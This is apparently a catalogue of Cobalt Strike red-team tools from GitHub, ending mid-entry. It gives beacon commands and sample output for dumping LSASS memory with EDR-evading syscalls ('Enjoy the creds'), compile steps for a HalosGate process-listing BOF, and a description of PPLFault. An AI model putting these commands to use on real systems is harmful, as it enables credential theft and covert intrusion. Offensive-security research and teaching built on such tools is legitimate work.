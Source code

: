 - Remote pipe listing is typically more complex; this tool facilitates it for use through implants.
- More details: [Outflank Blog on Remote Named Pipes](https://outflank.nl/blog/2023/10/19/listing-remote-named-pipes/).

https://github.com/outflanknl/C2-Tool-Collection/


#### MiniDumpWriteDump BOF (64-bit only)

A custom Beacon Object File (BOF) implementation that mimics the functionality of the MiniDumpWriteDump function for memory dumps. It uses statically compiled syscalls for critical functions, offering stealthier operation by avoiding API calls that are commonly hooked for detection.

**Usage in Cobalt Strike's Beacon:**

- Command: `minidumpwritedump [process_id] [destination_path]`
    - Example: `beacon> minidumpwritedump 756 C:\lsass.dmp`

**Output Example:**

- Initiating the dump will provide feedback on the operation.

less

`[*] Static Syscalls Custom MiniDumpWriteDump BOF (@rookuu_) [+] host called home, sent: 12165 bytes [+] received output: OS Version: 10.0.18362 [+] received output: Done! Enjoy the creds. (C:\lsass.dmp)`


https://github.com/rookuu/BOFs/tree/main/MiniDumpWriteDump


#### HalosGate Processlist Cobalt Strike BOF

Utilizes a custom syscaller based on HalosGate & HellsGate technique to enumerate processes on the target system. If no EDR hooks are detected, defaults to using HellsGate. Verbose mode is available for debugging purposes.

**Compile Instructions:**

- Use x64 MinGW for compilation.
    - Command: `x86_64-w64-mingw32-gcc -c halosgate-ps.x64.c -o halosgate-ps.x64.o -masm=intel`

**Usage in Cobalt Strike:**

- Import the `halosgate-ps.cna` script into Cobalt Strike's Script Manager.
- Execute the command in the Beacon Console:
    - `beacon> halosgate-ps`

**Example Output:**



`[*] HalosGate Processlist BOF [+] host called home, sent: 3232 bytes    PID    PPID    Name    ---    ----    ----    ...`

#### PPLFault

A tool by Gabriel Landau exploiting a timing issue in Windows Code Integrity for arbitrary code execution to dump processes protected by Windows Defender.

**Example Usage:**
